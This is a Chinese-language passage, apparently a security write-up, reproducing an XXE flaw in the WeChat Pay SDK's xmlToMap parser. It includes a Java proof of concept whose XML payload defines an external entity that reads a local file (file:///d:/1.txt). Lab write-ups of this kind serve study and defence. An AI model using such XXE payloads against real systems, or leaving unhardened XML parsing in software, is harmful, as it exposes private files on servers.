 我们可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是我实验的步骤

首先我在 com 包下又新建了一个包，来写我们的测试代码，测试代码我命名为 test001.java

**如图所示：**

[![img](assets/1667437016287-8031bc88-e5f5-43bd-9c65-fc6e703c3ed9.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/微信sdk 测试1.png)此处输入图片的描述

**test001.java**

```java
package com.test.test001;

import java.util.Map;

import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;

public class test001 {
    public static void main(String args[]) throws Exception {

        String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
                "<!DOCTYPE XDSEC [\r\n" +
                "<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
                "<XDSEC>\r\n"+
                "<XXE>&xxe;</XXE>\r\n" +
                "</XDSEC>";

        try{

            Map<String,String> test = xmlToMap(xmlStr);
            System.out.println(test);
        }catch (Exception e){
            e.printStackTrace();
        }

    }
}
```
